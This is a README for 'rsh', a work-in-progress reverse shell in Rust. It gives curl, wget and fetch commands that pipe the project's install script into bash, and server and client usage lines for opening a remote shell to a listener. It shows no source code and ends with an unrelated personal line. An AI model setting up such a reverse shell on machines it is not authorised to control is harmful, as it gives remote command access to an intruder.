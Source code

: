 # <img src=images/rsh_highlight_interlaced.png width="200">
### Rust Reverse Shell

<details>
<summary>Contents</summary>

- [What is rsh?](#what-is-rsh)
- [Installation](#installation)
  - [Commands](#commands)
  - [Inspection](#inspection)
- [Usage](#usage)
  - [Server](#server)
  - [Client](#client)
- [FAQ](#faq)
  - [About Naming](#--why-is-it--rsh---shouldnt-it-be--rrs--)
  - [Choice of Language](#--why-rust-why-not-c)

</details>

## What is rsh?
_**rsh is a reverse shell written in Rust.**_
<br>
It is a Work In Progress, and not ready for use yet.
<br><br>
In a reverse shell, the server listens for connections, and the client connects to it.
The client is the one that executes the commands and sends it back to the server.

## Installation
_Note: Installation instructions do not currently work._
<br>
rsh can be installed on your system by running one of the commands below in your terminal.
An installation script will be run. You must have git, and either `curl` or `wget` installed.

### Commands
| Method    | Command                                                                                            |
| :-------- |:---------------------------------------------------------------------------------------------------|
| **curl**  | `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"` |
| **wget**  | `/bin/bash -c "$(wget -O- https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"`   |
| **fetch** | `/bin/bash -c "$(fetch -o - https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh)"` |

### Inspection
If you would like to inspect the script before running it, you can download the script by running the following command:
```bash
wget https://raw.githubusercontent.com/simonfalke-01/rsh/main/install.sh
```
After you are done, you can run the script with
```bash
chmod +x ./install.sh && ./install.sh
```

## Usage
The server script should be run first, which sets up a listener (default on port 8080, localhost, if none are specified).
<br>
Run the following commands on the respective systems. Substitute `<address>` and `<port>` for the address and port that you would like to bind/connect to.
### Server
```bash
$ rsh server <address> <port>
```
### Client
```bash
$ rsh client <address> <port>
```

## FAQ
### - Why is it "rsh"? Shouldn't it be "rrs"?
A simple diagram for this:
<br><br><br>
<p align="center">
<img src="images/dont_ask.png" width="250" alt="rsh">
</p>
<br>
Don't ask.

### - Why Rust? Why not C?
<img src="images/segfault.png" width="250" alt="Image of C segfaulting">

<br><br><br><br>

michelle please be my girlfriend
